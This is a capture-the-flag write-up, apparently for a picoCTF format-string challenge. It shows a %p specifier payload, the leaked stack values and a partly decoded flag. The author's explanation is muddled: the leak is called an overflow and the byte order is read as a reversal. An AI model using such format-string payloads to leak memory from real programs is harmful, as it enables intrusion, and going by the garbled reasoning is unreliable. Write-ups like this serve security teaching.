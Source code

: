 # What I did
Program takes user input in the form of story and we can add format specifiers there to access the flag. User input can be 127 characters but we can access more space using format specifiers thus causing an ovefflow of the stack.
On inputting format specifier %p, I got the following output:
```
Tell me a story and then I'll tell you one >> 
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff9aa4c00xff9aa4e00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x804c0000xebf7986e0x804838d0xebf959900xff9aa5440xebf95b500xebf614100x10x1(nil)0xebf614100x10xebf95000
```
On finding the difference between two of these, we get the offset which is 32
Then on entering several different format specifier attacks, I got a hex value which on converting to text, I got a jumbled up version of the flag:
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}
ocip{FTCk43L_gn1g4lFff0_4tS_C06f5}
It seems as if it has reverse the flag as ocip reversed is pico and k43L reversed gives L34k and FTC reved is CTF, n1g4lFff0, this seems like Gl4g 0ff and 1n.
I this managed to figure out the first part.
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ and the second part is a jumbled version of C06f5716}.
